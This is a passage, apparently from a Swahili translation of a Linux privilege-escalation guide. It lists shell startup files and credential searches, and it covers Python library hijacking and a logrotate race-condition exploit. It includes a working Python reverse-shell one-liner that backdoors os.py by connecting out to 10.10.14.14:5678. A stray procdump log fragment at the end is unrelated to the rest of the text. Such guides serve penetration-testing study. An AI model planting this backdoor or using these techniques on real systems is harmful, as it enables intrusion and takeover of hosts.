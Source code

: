 ### Mafaili ya shell
```bash
~/.bash_profile # if it exists, read it once when you log in to the shell
~/.bash_login # if it exists, read it once if .bash_profile doesn't exist
~/.profile # if it exists, read once if the two above don't exist
/etc/profile # only read if none of the above exists
~/.bashrc # if it exists, read it every time you start a new shell
~/.bash_logout # if it exists, read when the login shell exits
~/.zlogin #zsh shell
~/.zshrc #zsh shell
```
### Utafutaji wa Creds za Kawaida/Regex

Unapaswa pia kuangalia faili zinazojumuisha neno "**password**" katika **jina** au ndani ya **maudhui**, na pia angalia IPs na emails ndani ya logs, au hashes regexps.\
Sitasema hapa jinsi ya kufanya yote haya lakini ikiwa una nia unaweza kuangalia ukaguzi wa mwisho ambao [**linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) hufanya.

## Faili Zinazoweza Kuandikwa

### Python library hijacking

Ikiwa unajua kutoka **wapi** script ya python itatekelezwa na unaweza **kuandika ndani** ya folda hiyo au unaweza **kuhariri python libraries**, unaweza kubadilisha maktaba ya os na kuitia backdoor (ikiwa unaweza kuandika mahali script ya python itatekelezwa, nakili na paste maktaba ya os.py).

Ili **backdoor the library** ongeza tu mwishoni wa maktaba ya os.py mstari ufuatao (badilisha IP na PORT):
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
### Kutumia udhaifu wa logrotate

Udhaifu katika `logrotate` unawawezesha watumiaji walio na **write permissions** kwenye faili ya logi au saraka zake za juu kupata vibali vilivyoongezeka. Hii ni kwa sababu `logrotate`, mara nyingi ikikimbia kama **root**, inaweza kudhibitiwa kutekeleza faili yoyote, hasa katika saraka kama _**/etc/bash_completion.d/**_. Ni muhimu kukagua ruhusa sio tu katika _/var/log_ bali pia katika saraka yoyote ambapo log rotation inafanyika.

> [!TIP]
> Udhaifu huu unaathiri `logrotate` version `3.18.0` and older

Taarifa za kina kuhusu udhaifu zinaweza kupatikana hapa: [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition).

Unaweza kutumia udhaifu huu kwa kutumia [**logrotten**](https://github.com/whotwagner/logrotten).

Udhaifu huu ni sawa sana na [**CVE-2016-1247**](https://www.cvedetails.com/cve/CVE-2016-1247/) **(nginx logs),** hivyo mara yoyote unapoona unaweza kubadilisha logi, angalia nani anayesimamia zile logi na ujaribu kuona kama unaweza kuinua vibali kwa kubadilisha logi kwa symlinks.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714